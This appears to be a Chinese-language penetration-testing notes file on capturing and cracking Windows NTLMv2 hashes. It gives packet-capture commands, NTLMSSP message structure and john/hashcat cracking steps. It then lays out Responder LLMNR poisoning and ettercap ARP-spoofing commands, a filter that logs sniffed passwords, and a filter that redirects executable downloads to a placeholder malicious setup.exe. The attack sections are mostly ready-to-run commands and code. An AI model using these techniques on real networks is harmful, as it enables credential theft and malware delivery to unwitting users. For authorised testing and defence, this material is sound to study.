


# Domain's NTLM

> https://www.mike-gualtieri.com/posts/live-off-the-land-and-crack-the-ntlmssp-protocol
>
> https://9bie.org/index.php/archives/869/

## NTLMv2

+ 是一种在 Windows 网络上使用的质询/响应哈希算法。Windows Active Directory 还存在其他网络身份验证协议（最明显的是 Kerberos），但 NTLMv2 仍广泛用于当今的组织网络。因此，当代渗透测试中的许多工具都专注于拦截 NTLMv2 身份验证握手，这些握手可以组装成可破解的密码哈希或中继到网络上的其他主机以获得访问权限，而无需破解哈希。这些工具中最臭名昭著的是 Responder，它多年来一直是渗透测试武器库中的主要工具。
+ 通常使用445端口用于SMB访问网络资源

## 捕获NTLM本地

+ netsh.exe

  ```
  netsh.exe trace start persistent=yes capture=yes TCP.AnyPort=445 tracefile=C:\Users\Public\capture.etl
  netsh.exe trace stop
  ```
+ pktmon.exe

```
pktmon.exe filter add SMB -p 445
:: List all filters 
pktmon.exe filter list
:: Find id of the network adapter (example > Id: 9)
pktmon.exe comp list
:: pktmon.exe start --etw -p 0 -c [Adapter ID] -l real-time
:: Note: The real-time option is new in Windows 10 2004, and isn't required
pktmon.exe start --etw -p 0 -c 9 -l real-time
:: Will create the file PktMon.etl in current directory
pktmon.exe stop
:: Cleanup
pktmon.exe filter remove
```

+ tcpdump -i eth0 tcp port 445 -w test.pcap

## NTLM流量

+ 协商 Negotiation：NTLMSSP\x00 0x01000000
  + 包含工作组和域信息
+ 挑战 Challenge：NTLMSSP\x00 0x02000000
  + 服务器返回挑战 8字节的随机数据
+ 验证 Authentication：NTLMSSP\x00 0x03000000
  + 客户端对服务器的响应
+ NTLMv2组成
  + 域
  + 用户名
  + 工作组
  + NTLM响应
  + NT证明

## NTLM解密

+ john格式
+ hashcat
+ 利用 https://github.com/mlgualtieri/NTLMRawUnHide 解密捕获的数据包中NTLM后用john爆破

## 捕获NTLM渗透

> 有感方法

+ LLMNR（链路局部多播名称解析）是一种域名系统 (DNS) 的替代品，用于在无法访问 DNS 服务器的情况下解析主机名。它允许在同一子网内的设备通过多播通信来解析主机名。
+ 当一台主机在本地网络中发送了一个 DNS 查询请求，但是没有收到响应时（例如，因为 DNS 服务器不可达或者主机刚刚加入网络），它可能会尝试使用 LLMNR 来解析名称。
+ responder -I eth0 -w
  + 目标主机输入了一个没有应答的主机名，responder自动应答，接受凭证得到NTLMv2

> 无感方法

+ et­ter­cap
  + ettercap -i eth0 -T -M arp:remote /192.168.0.123// /192.168.0.1//
  + etterfilter 过滤
    + ```
      if ( tcp.src == 80 || tcp.dst == 80) { 
              if (search(DATA.data,"password")) {
                      log(DATA.data, "/tmp/tmp.log");
              }
      }
      ```
  + ```
    if (ip.proto == TCP && tcp.dst == 80) {
        if (search(DATA.data, “Accept-Encoding”)) {
            replace("Accept-Encoding", "Accept-Mousecat");
            msg("zapped Accept-Encoding!\n");
        }
    }
    if (ip.proto == TCP && tcp.src == 80) {
        replace("keep-alive", "close" );
        replace("Keep-Alive", "close" );
    }
    if (ip.proto == TCP && search(DATA.data, ": application") ){
        msg("found EXE\n");
        if (search(DATA.data, "Win32")) {
            msg("doing nothing\n");
        } else {
            replace("200 OK", "301 Moved Permanently
            Location: http://你的恶意exe/setup.exe");
            msg("redirect success\n");
        }
    }
    ```
  + 搭配使用
    + etterfilter a.filter -o a.ef
    + sudo ettercap -i eth1 -T -q -F a.ef -M arp:remote /目标ip// /网关ip//
+ arp­spoof
+ 直接引用
+
